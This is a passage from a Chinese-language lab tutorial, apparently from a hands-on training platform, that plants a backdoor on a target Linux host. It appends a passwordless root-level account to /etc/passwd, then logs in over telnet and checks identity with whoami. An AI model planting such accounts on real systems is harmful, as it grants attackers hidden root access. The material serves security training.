 其中，常用的 Shell sh(BourneShell), csh(CShell) , ksh(KornShell) , tcsh(TENEX/TOPS-20typeCShell) , bash(BourneAgainShell) 等。

Linux 的 Shell 有许多种，Shell 是用户与 Linux 系统之间的接口。

明白了上面的基础知识，下面我们将写一个简单的后面，并通过后门访问渗透目标主机：

在命令行终端中，输入命令：

```
# 创建无口令账户登录后门
echo 'shiyanlou1234::0:0::/:/bin/sh' >> /etc/passwd
```
这里要注意了，虽然短短的一行命令，但是这里面对小白来说，在第一看到的时候还是云里雾里的，每个字段所代表的含义，请和上面的表格仔细对比一下，而最后一个字段的 `/bin/sh` 中 `sh` 是这个，是因为我们攻击的目标系统是这个，而网上的一些其他教程，写成 `/bin/csh` 不是他们写错，是因为他们攻击的目标主机的 Shell 是 CShell。在终端输入命令后，截图如下：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480558957160.png-wm)

查看是否输入成功，在终端中，输入命令，查看文件内容：

```
# 查看文件 /etc/passwd 内容
cat /etc/passwd
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559053660.png-wm)

回车，你将会看到如下：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559596819.png-wm)


接着，可以重新打开一个实验楼终端，验证我们的后门是否创建成功：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559651534.png-wm)

接着输入命令，使用后门登录目标主机：

```
# 链接目标主机
telnet target

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559784411.png-wm)


输入登录的账户名，就是刚才我们在 `echo` 中创建的用户名 `shiyanlou1234`：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559849056.png-wm)

回车，登录成功，查看下我们现在的身份：

```
# 查看身份
whoami
```
